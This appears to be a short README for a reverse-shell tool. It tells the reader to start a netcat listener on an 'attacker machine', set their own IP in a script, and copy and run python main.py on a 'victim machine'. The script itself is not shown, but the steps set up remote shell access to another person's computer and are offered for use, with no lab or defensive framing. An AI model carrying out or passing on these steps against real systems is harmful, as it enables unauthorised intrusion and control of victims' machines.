 # reverse shell

run at attacker machine to wait connection
```bash
nc -nlvk -p 5555 -s 0.0.0.0
```

change at script - ip address, to personal

then store script at victim machine and run script

```bash
python main.py
```
